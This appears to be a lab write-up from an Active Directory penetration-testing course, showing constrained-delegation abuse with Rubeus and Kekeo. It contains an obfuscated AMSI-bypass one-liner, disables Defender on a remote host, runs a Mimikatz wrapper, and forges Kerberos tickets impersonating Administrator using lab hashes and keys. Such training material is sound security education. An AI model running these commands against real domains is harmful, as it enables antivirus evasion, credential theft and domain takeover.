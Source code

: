 # 👨‍✈️ Exploit Constrained Delegation and execute privileged operations

We are going to start bu enumerating users with constrained delegation ->

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
. C:\AD\Tools\PowerView.ps1
Get-DomainUser -TrustedToAuth 
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption><p>We already have secrets of websvc from dcorp-admisrv machine.</p></figcaption></figure>

We can either use Kekeo or Rubeus to abuse that.

Let's start with rubeus -> First we need to encode "s4u" with Argsplit

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/constrained-delegation" %}

Since i'm not very meticulous, i didn't note websvc's secrets so i need to do it again ->

```
PS C:\AD\Tools> S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
PS C:\AD\Tools> . .\PowerView.ps1
PS C:\AD\Tools> . .\PowerUp.ps1
PS C:\AD\Tools> Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
PS C:\AD\Tools> Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
PS C:\AD\Tools> Enter-PSSession dcorp-adminsrv
[dcorp-adminsrv]: PS C:\Users\student613\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
VERBOSE: Performing operation 'Update MSFT_MpPreference' on Target 'ProtectionManagement'.
[dcorp-adminsrv]: PS C:\Users\student613\Documents> cd 'C:\Program Files\'
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption><p>2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7</p></figcaption></figure>

Now let's launch the Rubeus with s4u encoded:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt
```

{% hint style="warning" %}
in the course there's an error on the server name that is dcorpmssql and not dcorp-mssql
{% endhint %}

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption><p>just checking if it's all good</p></figcaption></figure>

And now we can access dcorp-mssql:

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we're going to abuse Constrained Delegation using websvc with Kekeo

Let's  use the tgt::ask module from kekeo to request a TGT from websvc. Note that we are using NTLM hash of websvcs here just to show NTLM hash can be used too:

```
cd .\kekeo\x64
.\kekeo.exe 
tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f 
```

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

Now, let's use this TGT and request a TGS. Note that we are requesting a TGS to access cifs/dcorp-mssql as the domain administrator - Administrator ->

```
tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.LOCAL
```

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Now we can inject the ticket in current session to use it

(will finish kekeo later)

Now we're going to abuse Constrained Delegation using dcorp-adminsrv with Rubeus

We have the AES keys of dcorp-adminsrv$ from dcorp-adminsrv machine
